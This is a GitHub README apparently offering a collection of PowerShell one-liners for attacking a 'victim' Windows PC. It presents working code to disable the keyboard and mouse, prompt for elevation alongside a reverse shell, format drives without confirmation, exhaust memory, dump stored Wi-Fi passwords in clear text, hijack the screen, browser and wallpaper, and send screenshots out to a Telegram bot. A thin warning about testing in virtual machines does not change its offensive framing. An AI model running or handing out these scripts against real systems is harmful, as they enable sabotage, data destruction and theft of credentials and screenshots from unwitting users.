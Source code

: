 ## Powershell Scripts for Automate Attacks 


This Module contains ps code that are used to automate your attacks and make Fun !<br>
There are 3 Modules that contains scripts ..!<br>
Each Contains 10 Scripts with Definition
<br>

# Module 1 PS-10
#### Note: I Have More script's to test then i will post once if worked .Please be Patient and i will try to upload one by one (Working Scripts)
### ⚠️ Warning ⚠️
**Test The scripts in virtual Environments . Am not responsible if any error or damage occures to your main**

<br>

#### 1. A NEW WAY TO DISABLE WINDOWS 10 AND 11 KEYBOARD AND MOUSE INPUT ( JUNE 2023 )

```
Add-Type -TypeDefinition @"
using System;
using System.Runtime.InteropServices;

public class InputBlocker
{
    [DllImport("user32.dll")]
    public static extern bool BlockInput(bool fBlockIt);
}

"@

# Disable keyboard and mouse input
[InputBlocker]::BlockInput($true)
```
Run the above script as Admin Shell , If the output is false then the shell is not admin 
If the output is true then the mouse and keyboard has disable successfully , this can be fixed by restarting the PC .

**Down below that works works on windows 10(some) Windows 8 and lower versions ...**

1.Disable windows Keyboard and Mouse input. <br>

**NOTE : The Disable command will take action once the user has restarted his computer. If this command is Executed without any error . Say Bye to his PC ;)**

<br>
Before that we need to know the InstanceID of the Victim id .
<br><br>
To do That .
<p>Enter the Command :</p>

```
# Find InstanceID for Mouse
$mouse = Get-PnpDevice | Where-Object {$_.Class -eq 'Mouse'}
$mouse | Format-Table -Property FriendlyName, InstanceId
```


```
# Find InstanceID for Keyboard
$keyboard = Get-PnpDevice | Where-Object {$_.Class -eq 'Keyboard'}
$keyboard | Format-Table -Property FriendlyName, InstanceId
```
<br>

The Command :
```
# Disable Mouse
$mouse = Get-PnpDevice | Where-Object {$_.Class -eq 'HIDClass' -and $_.FriendlyName -like '*Mouse*'}
$mouse | Disable-PnpDevice -Confirm:$false
```

```
# Disable Keyboard
$keyboard = Get-PnpDevice | Where-Object {$_.Class -eq 'Keyboard' -or ($_.Class -eq 'HIDClass' -and $_.FriendlyName -like '*Keyboard*')}
$keyboard | Disable-PnpDevice -Confirm:$false
```
Copy the INstacneID and slightly modify the down command !

<br>

Below are the Older Version that works in Windows 7 , 8 , 10(Older Version) <br> 

1(a). Lock input's from KeyBoard and Mouse <br>
 
    Start-Sleep -Seconds 5 ; Disable-PnpDevice -InstanceId (Get-PnpDevice -FriendlyName 'HID-compliant mouse').InstanceId ; Disable-PnpDevice -InstanceId (Get-PnpDevice -FriendlyName 'Standard PS/2 Keyboard').InstanceId
 <!----
If the Above Does Not work . Try this ( DISABLE ONLY KEYBOARD BASED ON VER 10 ,11 )
 
    Get-PnpDevice -FriendlyName 'HID Keyboard Device' | % { Disable-PnpDevice -InputObject $_ -ErrorAction SilentlyContinue )

FOR MOUSE :)

```
# Flase or True

$point = $False;$Element01.Add_MouseLeave({ if ( $point ) { Do something 01 } }) ;$Element01.Add_MouseEnter({ if ( $point ) { Do something 02 } }); $Element02.Add_MouseLeave({ if ( $point ) { Do something 03 } }) ;$Element02.Add_MouseHover({ if ( $point ) { Do something 04 } })
```
 <br>
--->
     
<br>

------------

2 . Run Script as Admin<br>

    Start-Process powershell.exe -ArgumentList '-File "C:\Path\To\Script.ps1"' -Verb RunAs
    
<h4>
 The Above Script will Run the Powershell saved Script as Admin once if the Victim clicks "Yes" on His PC .
 No Problem if You Got Reverse Shell as Administrator . You can play with your own Rev-Shell
</h4>
<br>

3 . Uninstall Program in Windows systems 

    Get-AppxPackage *programName* | Remove-AppxPackage

4 . Deleting Disk partition

    Format-Volume -DriveLetter <drive-letter> -FileSystem NTFS -Confirm:$false
    
can't Delete C:// Drive !

5 . Open Websites and open it in full screen using F11 key
    
    $ie = New-Object -ComObject InternetExplorer.Application; $ie.Visible = $true;$ie.Navigate("https://smukx.github.io/hacked"); while ($ie.Busy) { Start-Sleep -Milliseconds 100 };$ie.FullScreen = $true;[System.Windows.Forms.SendKeys]::SendWait("{F11}")

5 (1) . Alternate method to open on Any Websites 
```
& "C:\Program Files\Google\Chrome\Application\chrome.exe" --start-maximized --new-window "https://smukx.github.io/hacked"
```
 Change the path to open on custom websites 

6  . Load Your 100% of Ram ! ( Not Efficient for Windows 10 ,11 )

    $blockSize=1GB; $memoryBlock=[byte[]]::new($blockSize); $stopWatch=
    [System.Diagnostics.Stopwatch]::StartNew(); while($stopWatch.Elapsed.TotalSeconds-lt30)
    {$null=$memoryBlock.Clone()}; $memoryBlock=$null
    
 Made an Script that leaves 512 Mb for OS Survive . (Verry Effective) <br>
 Link : 
 <a href="https://github.com/Whitecat18/Ps-script-for-Hackers-and-Pentesters/tree/main/scripts" > Click Here </a> <br><br>
 
7 . Powershell Command to Disable and Enable Display Drivers

    Add-Type -AssemblyName System.Windows.Forms; $screenOff = New-Object System.Windows.Forms.Screen;
    $screenOffBrightness = $screenOff.Brightness; $screenOff.Brightness = 0; Start-Sleep -Seconds  10;
    $screenOff.Brightness = $screenOffBrightness
    
Works in Windows 7 and 8 . Works in some versions of windows !

8 . Command to Know All Stored Wifi-Passwords
 
    (netsh wlan show profiles) -match "All User Profile\s*: (.*)" | %{(netsh wlan show profile $_.trim() key=clear)} | Select-String "Key Content" | ForEach-Object {$_ -replace "Key Content\s*: ", ""}

9 . Increase Volume 100% 

```
$obj = New-Object -com wscript.shell;for ([int]$i = 0; $i -lt 100; $i += 2) {$obj.SendKeys([char]175)}
```
For Loop to Increase Volume 0 to 100 

10 . Decrease Volume 0%
```
$obj = New-Object -com wscript.shell;for ([int]$i = 0; $i -lt 100; $i += 2) {$obj.SendKeys([char]174)}
```
For Loop to Decrease Volume to 0 

11 . Change Wallpaper in victim machine
```
$url = "https://mobimg.b-cdn.net/v3/fetch/ee/ee356e62c87dcd8544a0ec5bbd86b15a.jpeg";$output = "C:\Users\Testing doc\Desktop\image.jpeg";$regkey = "HKCU:\Control Panel\Desktop\";$regvalue = "Wallpaper";wget $url -OutFile $output;Set-ItemProperty -Path $regkey -Name $regvalue -Value $output;RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters ,1 ,True;
```
Change the wallpaper Link as you wish . The Link should end with the extension with .jpg .jpeg etc..

12 . Put Screen to Sleep

```
$type = Add-Type '[DllImport("user32.dll")]public static extern int SendMessage(int hWnd, int hMsg, int wParam, int lParam);' -Name a -Pas ; $type::SendMessage(-1, 0x0112, 0xF130, -1);$type::SendMessage(-1, 0x0112, 0xF170, 2)
```
Allows to put screen sleep . when the intercept means , the machine will come back to normal

13 . Popup Message 

To popup Messages , you can use the Following 2 Methods .

Using `msg` For Older Version of Windows 
```
$text = "HEHE YOU HAVE BEEN PWENED"
msg * $text
```

Using `Windows.Forms.MessageBox` Latest Versions 

```
Add-Type -AssemblyName PresentationFramework

[System.Windows.MessageBox]::Show("HEHE - YOU HAVE BEEN PWENED", "PowerShell Pop-up", "OK", "Information")
```
14 . Screenshot with Telebot 

capture and send screenshot to Telegram bot using powershell . 

Download the module 
`Install-Module -Name Telegram.Bot -Scope CurrentUser`

<b>Script -> <a href="https://github.com/Whitecat18/Powershell-Scripts-for-Hackers-and-Pentesters/blob/main/scripts/screenshot.ps1" > Redirect </a><b>
